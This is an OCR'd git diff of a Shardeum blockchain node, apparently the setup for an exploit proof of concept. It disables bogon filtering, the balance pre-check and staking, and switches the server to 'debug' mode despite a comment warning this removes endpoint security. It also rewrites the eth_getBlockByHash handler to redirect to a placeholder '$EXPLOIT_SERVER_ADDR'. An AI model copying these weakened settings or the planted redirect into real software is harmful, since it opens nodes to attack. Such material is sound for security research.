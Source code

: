 ```
       amountToShrink: 5,
       maxDesiredMultiplier: 1.2,
       maxScaleReqs: 250, // todo: this will become a variable config but this should work for a 500 node demo
-      forceBogonFilteringOn: true,
+      forceBogonFilteringOn: false,
       //these are new feature in 1.3.0, we can make them default:true in shardus-core later
 
       // 1.2.3 migration starts
@@ -306,11 +306,11 @@ config = merge(
   config,
   {
     server: {
-      mode: 'release', // todo: must set this to \"release\" for public networks or get security on endpoints. use \"debug\"
+      mode: 'debug', // todo: must set this to \"release\" for public networks or get security on endpoints. use \"debug\"
       // for easier debugging
       debug: {
-        startInFatalsLogMode: true, // true setting good for big aws test with nodes joining under stress.
-        startInErrorLogMode: false,
+        startInFatalsLogMode: false, // true setting good for big aws test with nodes joining under stress.
+        startInErrorLogMode: true,
         robustQueryDebug: false,
         fakeNetworkDelay: 0,
         disableSnapshots: true, // do not check in if set to false
diff --git a/src/index.ts b/src/index.ts
index e65a20d..44a5eec 100644
--- a/src/index.ts
+++ b/src/index.ts
@@ -1327,7 +1327,9 @@ const configShardusEndpoints = (): void => {
       return res.json({ error: 'Invalid block hash' })
     if (ShardeumFlags.VerboseLogs) console.log('Req: eth_getBlockByHash', blockHash)
     const blockNumber = blocksByHash[blockHash]
-    return res.json({ block: readableBlocks[blockNumber] })
+    // return res.json({ block: readableBlocks[blockNumber] })
+    // MODIFIED
+    return res.redirect('$EXPLOIT_SERVER_ADDR')
     /* eslint-enable security/detect-object-injection */
   })
 
diff --git a/src/shardeum/shardeumFlags.ts b/src/shardeum/shardeumFlags.ts
index ac80e04..31311ea 100644
--- a/src/shardeum/shardeumFlags.ts
+++ b/src/shardeum/shardeumFlags.ts
@@ -143,7 +143,7 @@ export const ShardeumFlags: ShardeumFlags = {
   DebugRestoreArchiveBatch: 2000,
   CheckNonce: true,
   txNoncePreCheck: false,
-  txBalancePreCheck: true,
+  txBalancePreCheck: false,
   autoGenerateAccessList: true,
   forwardGenesisAccounts: true,
   UseDBForAccounts: true,
@@ -176,7 +176,7 @@ export const ShardeumFlags: ShardeumFlags = {
     ['tx/:hash']: 5,
   },
   generateMemoryPatternData: true,
-  StakingEnabled: true,
+  StakingEnabled: false,
   ModeEnabled: true,
```